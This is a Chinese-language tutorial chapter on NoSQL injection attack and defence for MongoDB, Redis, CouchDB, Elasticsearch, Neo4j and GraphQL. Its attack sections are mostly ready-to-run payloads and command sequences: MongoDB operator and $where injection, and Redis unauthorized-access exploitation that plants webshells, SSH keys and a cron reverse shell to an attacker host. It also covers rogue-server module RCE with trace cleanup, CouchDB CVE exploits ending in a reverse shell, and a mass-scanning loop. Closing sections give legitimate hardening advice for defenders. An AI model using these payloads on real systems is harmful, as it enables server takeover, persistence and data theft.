


## 5. NoSQL注入攻防实战

NoSQL数据库（MongoDB、Redis、CouchDB、Elasticsearch等）虽然不使用SQL语言，但同样面临注入攻击的风险。与SQL注入不同，NoSQL注入的攻击面更分散——操作符注入、JavaScript注入、未授权访问、协议层滥用——每种数据库都有独特的攻击向量。理解NoSQL注入，是完整掌握数据库安全攻防的必经之路。

### 5.1 NoSQL注入与SQL注入的本质区别

SQL注入的核心是**字符串拼接导致语法结构被篡改**，而NoSQL注入的攻击面更广，因为它面对的是结构化查询对象（JSON/BSON）、脚本引擎（JavaScript/Lua）和无认证的默认配置。

| 对比维度 | SQL注入 | NoSQL注入 |
|---------|---------|----------|
| 注入点 | 字符串拼接处 | JSON参数、查询操作符、脚本引擎、协议层 |
| 攻击目标 | 篡改SQL语句逻辑 | 篡改查询条件、执行任意脚本、未授权访问 |
| 语言依赖 | 统一的SQL语法 | 每种NoSQL数据库语法不同 |
| 数据格式 | 行列结构化数据 | 文档/键值/图等多种模型 |
| 典型Payload | `' OR 1=1 --` | `{"$ne": ""}`、`Lua脚本`、`CONFIG SET` |
| 危害范围 | 数据泄露、篡改 | 数据泄露、RCE、服务器接管 |



### 5.2 MongoDB注入：操作符与脚本引擎

MongoDB是文档型数据库，查询使用JSON/BSON格式的查询对象。Node.js + Express + MongoDB是NoSQL注入的重灾区，因为Express的中间件会自动将请求参数解析为嵌套对象。

#### 5.2.1 操作符注入原理

MongoDB查询操作符（`$ne`、`$gt`、`$in`、`$regex`、`$exists`等）是注入的核心。当应用直接将用户输入传递给`find()`方法时，攻击者可以注入操作符来改变查询语义。

**典型漏洞代码（Node.js + Express）：**

```javascript
// Express默认使用qs库解析请求体，支持嵌套对象语法
// POST /login
// Content-Type: application/x-www-form-urlencoded
// body: username=admin&password[$ne]=wrong

app.post('/login', (req, res) => {
    // 危险：直接将用户输入传递给查询
    db.collection('users').findOne({
        username: req.body.username,
        password: req.body.password  // 这里可能是 {"$ne": "wrong"} 而非字符串
    }, (err, user) => {
        if (user) res.json({ success: true, token: generateToken(user) });
        else res.status(401).json({ error: 'Invalid credentials' });
    });
});
```

**攻击过程分析：**

```text
正常请求：  username=admin  password=secret123
查询语义：  { username: "admin", password: "secret123" }
结果：      精确匹配admin的密码

恶意请求：  username=admin  password[$ne]=
查询语义：  { username: "admin", password: { "$ne": "" } }
结果：      匹配username=admin且password不为空字符串的所有文档
效果：      认证绕过——只要admin设置了密码，查询就会成功
```

#### 5.2.2 完整操作符注入Payload

**认证绕过类操作符：**

```javascript
// $ne（不等于）—— 最常用的认证绕过
{ "password": { "$ne": "" } }           // 不等于空字符串
{ "password": { "$ne": "wrong" } }       // 不等于任意值

// $gt（大于）—— 空字符串是所有字符串的最小值
{ "password": { "$gt": "" } }            // 大于空字符串 = 任何非空密码

// $gte（大于等于）
{ "password": { "$gte": "" } }           // 大于等于空字符串

// $nin（不在列表中）—— 排除特定值
{ "password": { "$nin": ["", "null", "undefined"] } }

// $in（在列表中）—— 匹配多个可能值
{ "username": { "$in": ["admin", "root", "superadmin"] } }

// $exists（字段存在性）
{ "password": { "$exists": true } }       // 只要password字段存在就匹配

// $regex（正则匹配）—— 模糊匹配所有值
{ "password": { "$regex": ".*" } }        // 匹配任意内容
{ "password": { "$regex": "^a" } }        // 以a开头的密码
```

**联合操作符注入：**

```javascript
// 组合操作符绕过更严格的校验
{
    "password": {
        "$ne": "",        // 不为空
        "$exists": true,  // 字段存在
        "$type": "string" // 类型是字符串
    }
}

// 利用$type选择器
{ "password": { "$type": 2 } }  // BSON type 2 = string
```

**HTTP请求中的注入格式：**

```text
# application/x-www-form-urlencoded（Express qs解析）
POST /login
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=&password[$exists]=true

# application/json（直接JSON注入）
POST /login
Content-Type: application/json

{
    "username": "admin",
    "password": {"$ne": ""}
}

# URL查询参数
GET /api/users?role[$ne]=user
GET /api/products?price[$gt]=0&price[$lt]=1  // 价格操纵
```

#### 5.2.3 `$where` JavaScript注入

MongoDB的`$where`操作符允许执行任意JavaScript表达式，是最高危的注入点。

```javascript
// 漏洞代码：使用$where拼接用户输入
app.get('/search', (req, res) => {
    db.collection('users').find({
        $where: `this.username == '${req.query.name}'`
    }).toArray((err, docs) => {
        res.json(docs);
    });
});
```

**攻击Payload：**

```javascript
// 注入点：name参数
// 正常：name=admin
// $where: this.username == 'admin'

// Payload 1：绕过认证
name=admin' || '1'=='1
// $where: this.username == 'admin' || '1'=='1'
// 效果：返回所有用户

// Payload 2：信息泄露
name=admin' || this.password.match(/^a/)//
// $where: this.username == 'admin' || this.password.match(/^a/)//
// 效果：返回密码以a开头的用户（逐字符盲注）

// Payload 3：基于时间的盲注
name=admin' || sleep(3000) || '
// $where: this.username == 'admin' || sleep(3000) || '
// 效果：如果条件为真，延迟3秒响应

// Payload 4：逐字符提取数据（盲注）
name=admin' && this.password.charAt(0)=='a'//
// 逐字符爆破密码
```

#### 5.2.4 MongoDB数据提取技术

MongoDB没有SQL那样的UNION注入，但可以通过以下方法提取数据：

**方法一：基于布尔的盲注**

```javascript
// 逐字符猜解字段值
// 第1步：判断密码长度
{"username": "admin", "password": {"$regex": "^.{1}$"}}   // 长度1？
{"username": "admin", "password": {"$regex": "^.{5}$"}}   // 长度5？
{"username": "admin", "password": {"$regex": "^.{8,}$"}}  // 长度>=8？

// 第2步：逐字符猜解
{"username": "admin", "password": {"$regex": "^a"}}       // 第1位是a？
{"username": "admin", "password": {"$regex": "^ad"}}      // 前2位是ad？
{"username": "admin", "password": {"$regex": "^adm"}}     // 前3位是adm？
// ...继续直到猜出完整密码
```

**方法二：利用错误信息泄露**

```javascript
// 如果应用返回MongoDB错误信息
// 可以通过构造错误来泄露数据
{"$where": "throw this.password"}  // 某些版本会在错误信息中泄露值
```

**方法三：聚合管道注入**

```javascript
// 如果用户输入被传递到聚合管道
db.collection.aggregate([
    { $match: { category: userInput } },
    { $group: { _id: "$status", count: { $sum: 1 } } }
]);

// 注入$lookup来读取其他集合
{
    "$lookup": {
        "from": "users",
        "localField": "username",
        "foreignField": "username",
        "as": "userData"
    }
}
```

#### 5.2.5 Mongoose/ODM的安全局限性

使用Mongoose等ODM可以缓解操作符注入，但不能完全防御：

```javascript
// Mongoose Schema定义
const UserSchema = new mongoose.Schema({
    username: { type: String, required: true },
    password: { type: String, required: true }
});

// 安全：Mongoose会验证字段类型
// 传入 {"$ne": ""} 作为password时，Mongoose会拒绝非字符串类型
User.findOne({ username, password });  // 安全

// 但以下场景仍然不安全：
// 1. 使用$where操作符
User.find({ $where: userInput });  // 仍然危险

// 2. 使用lean()跳过Schema验证
User.findOne({ username, password }).lean();  // 可能绕过验证

// 3. 使用cast: false禁用类型转换
User.findOne({ username, password }, null, { cast: false });  // 危险

// 4. 直接操作原生MongoDB驱动
mongoose.connection.db.collection('users').find({ password: userInput });  // 危险
```

### 5.3 Redis未授权访问与利用

Redis默认无密码认证，如果暴露在网络中（尤其是公网），攻击者可以直接连接并执行任意命令。Redis的利用方式不同于传统注入，而是通过写文件实现RCE。

#### 5.3.1 检测与信息收集

```bash
# 基础连接检测
redis-cli -h <target_ip> -p 6379

# 快速判断是否未授权
redis-cli -h <target_ip> PING
# 返回 PONG = 未授权可访问
# 返回 NOAUTH 或连接拒绝 = 有保护

# 信息收集
redis-cli -h <target_ip> INFO           # 服务器信息、版本、内存
redis-cli -h <target_ip> CONFIG GET *    # 所有配置项
redis-cli -h <target_ip> DBSIZE          # 键数量
redis-cli -h <target_ip> KEYS *          # 列出所有键（生产环境慎用）

# 批量扫描脚本
for ip in $(cat targets.txt); do
    result=$(redis-cli -h $ip -p 6379 --no-auth-warning PING 2>/dev/null)
    if [ "$result" = "PONG" ]; then
        echo "[VULN] $ip:6379 未授权访问"
        redis-cli -h $ip INFO server 2>/dev/null | grep -E "redis_version|os|tcp_port"
    fi
done
```

**常用扫描工具：**

```bash
# 使用nmap脚本扫描
nmap -p 6379 --script redis-info <target>

# 使用masscan快速扫描大网段
masscan -p 6379 <target_cidr> --rate=1000 -oL redis_hosts.txt

# 使用redis-cli批量验证
redis-cli -h <target> --no-auth-warning INFO 2>/dev/null | head -5
```

#### 5.3.2 写入WebShell

当Redis服务器与Web服务器在同一台机器上时，可以通过写文件实现WebShell注入：

```bash
# 步骤1：确认Web目录路径
redis-cli -h <target> CONFIG GET dir      # 当前工作目录
redis-cli -h <target> CONFIG GET dbfilename  # RDB文件名

# 步骤2：修改RDB输出路径到Web目录
redis-cli -h <target> CONFIG SET dir /var/www/html/
redis-cli -h <target> CONFIG SET dbfilename shell.php

# 步骤3：写入WebShell内容
redis-cli -h <target> SET payload "<?php system($_GET['cmd']); ?>"
# 或使用换行符混淆
redis-cli -h <target> SET x "\n\n<?php @eval($_POST['pass']);?>\n\n"

# 步骤4：触发RDB持久化
redis-cli -h <target> BGSAVE

# 步骤5：访问WebShell
curl "http://target/shell.php?cmd=id"
```

**不同语言的WebShell写法：**

```bash
# PHP一句话
redis-cli -h <target> SET x "<?php system(\$_GET['cmd']);?>"

# JSP WebShell
redis-cli -h <target> CONFIG SET dir /usr/local/tomcat/webapps/ROOT/
redis-cli -h <target> CONFIG SET dbfilename shell.jsp
redis-cli -h <target> SET x "<%Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>"

# ASP/ASPX
redis-cli -h <target> CONFIG SET dir "C:/inetpub/wwwroot/"
redis-cli -h <target> CONFIG SET dbfilename shell.asp
```

#### 5.3.3 写入SSH公钥

```bash
# 生成攻击者的SSH密钥对（如果还没有）
ssh-keygen -t rsa -f /tmp/redis_rsa -N ""

# 在公钥前后加换行符填充（Redis RDB格式要求）
(echo -e "\n\n"; cat /tmp/redis_rsa.pub; echo -e "\n\n") > /tmp/pub.txt

# 写入目标服务器
redis-cli -h <target> FLUSHALL
redis-cli -h <target> CONFIG SET dir /root/.ssh/
redis-cli -h <target> CONFIG SET dbfilename authorized_keys
redis-cli -h <target> SET x "$(cat /tmp/pub.txt)"
redis-cli -h <target> SAVE

# SSH登录
ssh -i /tmp/redis_rsa root@<target>
```

**注意事项：**
- 目标服务器需要允许root SSH登录（`PermitRootLogin yes`）
- `/root/.ssh/`目录必须存在，否则`CONFIG SET dir`会失败
- 如果root不可用，尝试写入其他用户的`~/.ssh/`目录
- SELinux/AppArmor可能会阻止Redis写入非标准目录

#### 5.3.4 写入Crontab反弹Shell

```bash
# 利用cron定时任务反弹shell
redis-cli -h <target> FLUSHALL
redis-cli -h <target> CONFIG SET dir /var/spool/cron/
redis-cli -h <target> CONFIG SET dbfilename root
redis-cli -h <target> SET x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/<attacker>/4444 0>&1\n\n"
redis-cli -h <target> SAVE

# 攻击者监听
nc -lvnp 4444
```

**不同发行版的差异：**

```bash
# CentOS/RHEL —— crontab文件在 /var/spool/cron/用户名
CONFIG SET dir /var/spool/cron/
CONFIG SET dbfilename root

# Ubuntu/Debian —— crontab文件在 /var/spool/cron/crontabs/用户名
CONFIG SET dir /var/spool/cron/crontabs/
CONFIG SET dbfilename root

# 注意：Debian系的cron文件要求特定格式，直接写入可能不生效
# 需要确保文件有正确的权限和格式
```

#### 5.3.5 主从复制RCE（Redis 4.x/5.x）

Redis 4.0+引入了模块系统（Module），攻击者可以利用主从复制机制加载恶意`.so`模块实现RCE，这是比写文件更可靠的利用方式：

```bash
# 方法1：使用 redis-rogue-server
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server
python3 redis-rogue-server.py --rhost <target_ip> --lhost <attacker_ip>

# 方法2：使用 RedisModules-ExecuteCommand
# 步骤1：编译恶意模块
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make  # 生成 module.so

# 步骤2：利用主从复制加载模块
redis-cli -h <target> SLAVEOF <attacker_ip> 6379
# 攻击者运行rogue server，推送恶意module.so
redis-cli -h <target> MODULE LOAD /tmp/module.so
redis-cli -h <target> system.exec "id"
redis-cli -h <target> system.exec "cat /etc/passwd"

# 清理痕迹
redis-cli -h <target> SLAVEOF NO ONE
redis-cli -h <target> MODULE UNLOAD system
```

**主从复制利用的工作原理：**



#### 5.3.6 Redis Lua脚本注入

Redis 2.6+支持通过`EVAL`执行Lua脚本，如果Lua脚本中拼接了用户输入，可以实现注入：

```bash
# 正常Lua脚本执行
redis-cli EVAL "return redis.call('GET', KEYS[1])" 1 mykey

# 注入攻击：如果应用拼接用户输入到Lua脚本
# 漏洞代码：
# script = "return redis.call('GET', '" + userInput + "')"
# 
# 攻击输入：') ; redis.call('SET', 'hacked', 'true') ; redis.call('GET', '
# 最终脚本：return redis.call('GET', '') ; redis.call('SET', 'hacked', 'true') ; redis.call('GET', '')
```

### 5.4 CouchDB注入与利用

Apache CouchDB是面向文档的NoSQL数据库，通过RESTful HTTP API提供访问。

#### 5.4.1 CVE-2017-12635：任意用户创建

CouchDB 2.x在处理JSON文档时存在属性重复漏洞，可以绕过角色限制创建管理员：

```json
// 向/_users端点发送包含重复roles字段的请求
PUT /_users/org.couchdb.user:attacker HTTP/1.1
Host: target:5984
Content-Type: application/json

{
  "type": "user",
  "name": "attacker",
  "roles": ["_admin"],
  "roles": [],
  "password": "attacker123"
}
```

**原理分析：** CouchDB使用Erlang的jiffy库解析JSON，Erlang的JSON处理保留最后一个重复键的值，而CouchDB的权限检查使用第一个值。攻击者将第一个`roles`设为`["_admin"]`（用于权限检查），第二个`roles`设为`[]`（用于实际存储）。

```bash
# 使用curl利用
curl -X PUT http://target:5984/_users/org.couchdb.user:attacker \
  -H "Content-Type: application/json" \
  -d '{"type":"user","name":"attacker","roles":["_admin"],"roles":[],"password":"attacker123"}'

# 使用创建的管理员登录
curl -X POST http://target:5984/_session \
  -H "Content-Type: application/json" \
  -d '{"name":"attacker","password":"attacker123"}'

# 验证管理员权限
curl -X GET http://target:5984/_all_dbs \
  -H "Cookie": "AuthSession=<session_token>"
```

#### 5.4.2 CVE-2017-12636：任意命令执行

CouchDB 2.x允许通过`_config/query_servers`端点配置自定义查询服务器，攻击者可以注册恶意命令作为查询服务器：

```bash
# 步骤1：注册恶意查询服务器
curl -X PUT http://target:5984/_config/query_servers/cmd \
  -H "Content-Type: application/json" \
  -d '"/bin/bash -c \"bash -i >& /dev/tcp/attacker/4444 0>&1\""'

# 步骤2：创建数据库和设计文档
curl -X PUT http://target:5984/testdb
curl -X PUT http://target:5984/testdb/_design/exploit \
  -H "Content-Type: application/json" \
  -d '{"language": "cmd", "views": {"exploit": {"map": ""}}}'

# 步骤3：触发查询执行
curl -X POST http://target:5984/testdb/_temp_view \
  -H "Content-Type: application/json" \
  -d '{"language": "cmd", "map": ""}'

# 攻击者监听
nc -lvnp 4444
```

#### 5.4.3 CouchDB未授权访问

```bash
# CouchDB默认无认证（2.0之前的版本）
# 检测是否需要认证
curl http://target:5984/

# 列出所有数据库
curl http://target:5984/_all_dbs

# 读取数据库内容
curl http://target:5984/<database>/_all_docs?include_docs=true

# CouchDB Fauxton管理界面（通常在5984端口）
curl http://target:5984/_utils/

# 修改管理员密码（2.0+版本）
curl -X PUT http://target:5984/_users/org.couchdb.user:admin \
  -H "Content-Type: application/json" \
  -d '{"type":"user","name":"admin","roles":[],"password":"newpass"}'
```

### 5.5 其他NoSQL数据库注入

#### 5.5.1 Elasticsearch注入

Elasticsearch使用基于JSON的Query DSL，如果查询中拼接了用户输入，可能导致数据泄露：

```json
// 漏洞代码：拼接用户输入到查询
// query = { "query": { "match": { "content": userInput } } }

// 注入Bool查询泄露其他索引数据
{
  "query": {
    "bool": {
      "must": [{ "match": { "content": "search_term" } }],
      "should": [
        { "match": { "password": "admin" } }
      ]
    }
  }
}

// 利用_script查询（如果启用）
{
  "query": {
    "script": {
      "script": "doc['password'].value.startsWith('a')"
    }
  }
}
```

**Elasticsearch未授权访问利用：**

```bash
# 检测未授权访问
curl -s http://target:9200/
curl -s http://target:9200/_cat/indices?v

# 列出所有索引
curl -s http://target:9200/_cat/indices?v&s=index

# 搜索敏感索引
curl -s http://target:9200/users/_search?size=100

# 节点信息（可能泄露内网IP）
curl -s http://target:9200/_nodes?pretty

# 快照信息（可能泄露存储路径）
curl -s http://target:9200/_snapshot?pretty
```

#### 5.5.2 Neo4j Cypher注入

Neo4j使用Cypher查询语言，如果参数拼接不当，同样存在注入风险：

```cypher
// 漏洞代码
MATCH (u:User {name: '" + userInput + "'}) RETURN u

// 注入Payload
' OR 1=1 RETURN u //
' WITH u MATCH (u)-[:KNOWS]->(friend) RETURN friend //

// 提取所有节点
' RETURN labels(u), keys(u) //
```

### 5.6 应用层NoSQL注入

#### 5.6.1 GraphQL注入

GraphQL查询直接映射到后端数据源，如果resolver中存在拼接，可以注入到后端数据库：

```graphql
# 信息泄露：Introspection查询
{
  __schema {
    types {
      name
      fields {
        name
        type { name }
      }
    }
  }
}

# 枚举敏感类型
{
  __type(name: "User") {
    fields {
      name
      type { name }
    }
  }
}

# 查询深度攻击（DoS）
{
  user(id: 1) {
    friends {
      friends {
        friends {
          friends {
            name
          }
        }
      }
    }
  }
}

# 批量查询攻击
query {
  u1: user(id: 1) { name email password }
  u2: user(id: 2) { name email password }
  u3: user(id: 3) { name email password }
}
```

#### 5.6.2 API参数污染

```javascript
// Express + qs解析器的参数污染
// GET /api/users?role=user&role=admin
// qs解析结果：role = ["user", "admin"]
// 可能绕过单值检查

// 嵌套对象注入
// GET /api/users?filter[$gt]=&filter[$ne]=user
// 后端MongoDB查询变成：{ filter: { "$gt": "", "$ne": "user" } }
```

### 5.7 自动化测试工具

| 工具 | 用途 | 支持数据库 | 特点 |
|------|------|-----------|------|
| **NoSQLMap** | NoSQL注入自动化测试 | MongoDB、CouchDB | 自动检测+利用，支持认证绕过 |
| **mongo-express** | MongoDB管理/测试 | MongoDB | Web界面，辅助手动测试 |
| **redis-cli** | Redis利用 | Redis | 官方客户端，直接执行命令 |
| **sqlmap**（NoSQL模式） | 注入测试 | 部分支持 | 主要针对SQL，NoSQL支持有限 |
| **Burp Suite** | 手动/半自动测试 | 所有 | Intruder模块配合操作符Payload |
| **Graphinder** | GraphQL注入 | GraphQL | 自动发现endpoint和注入测试 |

```bash
# NoSQLMap使用示例
pip install nosqlmap
nosqlmap

# 主菜单：
# 1. 设置目标
# 2. 设置MongoDB攻击选项
# 3. 设置HTTP选项
# 4. 测试MongoDB注入
# 5. 扫描MongoDB未授权访问

# 使用Burp Suite测试
# 1. 拦截登录请求
# 2. 发送到Intruder
# 3. 在password参数位置添加Payload：
#    $ne, $gt, $gte, $lt, $in, $regex, $exists
# 4. 使用Pitchfork或Cluster bomb模式
# 5. 根据响应差异判断注入是否成功
```

### 5.8 防御策略

#### 5.8.1 输入验证与类型检查

```javascript
// Node.js + Mongoose 防御示例

// 1. 定义严格的Schema
const UserSchema = new mongoose.Schema({
    username: { type: String, required: true, match: /^[a-zA-Z0-9_]+$/ },
    password: { type: String, required: true }
});

// 2. 使用Schema验证
const User = mongoose.model('User', UserSchema);

// 3. 查询前验证输入类型
app.post('/login', async (req, res) => {
    const { username, password } = req.body;
    
    // 类型检查：确保是字符串
    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: 'Invalid input type' });
    }
    
    // 长度检查
    if (username.length > 50 || password.length > 100) {
        return res.status(400).json({ error: 'Input too long' });
    }
    
    // 使用参数化查询（Mongoose自动处理类型）
    const user = await User.findOne({ username, password });
    
    if (user) {
        res.json({ success: true });
    } else {
        res.status(401).json({ error: 'Invalid credentials' });
    }
});
```

#### 5.8.2 中间件层防御

```javascript
// Express中间件：递归清理查询对象中的操作符
function sanitizeQuery(obj) {
    if (typeof obj !== 'object' || obj === null) return obj;
    
    const sanitized = {};
    for (const [key, value] of Object.entries(obj)) {
        // 拒绝以$开头的操作符键
        if (key.startsWith('$')) {
            throw new Error(`Invalid operator: ${key}`);
        }
        // 递归检查嵌套对象
        sanitized[key] = sanitizeQuery(value);
    }
    return sanitized;
}

// 应用中间件
app.use((req, res, next) => {
    try {
        if (req.body) req.body = sanitizeQuery(req.body);
        if (req.query) req.query = sanitizeQuery(req.query);
        if (req.params) req.params = sanitizeQuery(req.params);
        next();
    } catch (err) {
        res.status(400).json({ error: 'Invalid request parameters' });
    }
});
```

#### 5.8.3 Redis安全加固

```bash
# redis.conf 安全配置

# 1. 设置强密码
requirepass <strong_password_here>

# 2. 绑定内网地址
bind 127.0.0.1 10.0.0.1

# 3. 禁用危险命令
rename-command FLUSHDB ""
rename-command FLUSHALL ""
rename-command CONFIG "CONFIG_b92a9e7c"
rename-command DEBUG ""
rename-command SHUTDOWN ""
rename-command SLAVEOF ""
rename-command MODULE ""

# 4. 禁用或限制Lua脚本
# 如果不需要Lua，完全禁用
# 如果需要，限制EVAL命令的使用

# 5. 启用保护模式
protected-mode yes

# 6. 限制客户端连接数
maxclients 100

# 7. 启用TLS
tls-port 6379
port 0
tls-cert-file /path/to/redis.crt
tls-key-file /path/to/redis.key

# 8. 以低权限用户运行
# 不要以root运行Redis！
```

#### 5.8.4 综合防御检查清单

```text
□ 输入验证
  - 所有用户输入在传递给数据库查询前进行类型检查
  - 拒绝非预期的数据类型（对象、数组、布尔值）
  - 限制输入长度

□ 查询安全
  - 使用ODM/ORM的参数化查询（Mongoose Schema）
  - 避免使用$where、$expr等允许执行脚本的操作符
  - 不要将用户输入直接拼接到聚合管道

□ 配置加固
  - 所有NoSQL数据库必须设置认证
  - 绑定地址限制为内网或localhost
  - 禁用不必要的命令和功能
  - 启用TLS加密

□ 网络隔离
  - 数据库服务器不应暴露在公网
  - 使用防火墙限制访问源IP
  - 数据库放在独立的内网段

□ 监控告警
  - 记录所有数据库访问日志
  - 监控异常查询模式
  - 告警未授权访问尝试
```

### 5.9 常见误区与纠正

| 误区 | 事实 |
|------|------|
| "NoSQL数据库不会被注入" | NoSQL注入攻击面更分散，但同样严重 |
| "用了Mongoose就安全了" | Mongoose只防御操作符注入，$where和原生查询仍然危险 |
| "Redis不是数据库，没有注入风险" | Redis未授权访问可以直接RCE，比注入更严重 |
| "NoSQL不需要认证" | 任何数据库都需要认证和访问控制 |
| "JSON格式天然防注入" | JSON参数可以被篡改为包含操作符的嵌套对象 |
| "禁用CONFIG就安全了" | 主从复制RCE不依赖CONFIG，需要全面防御 |

***

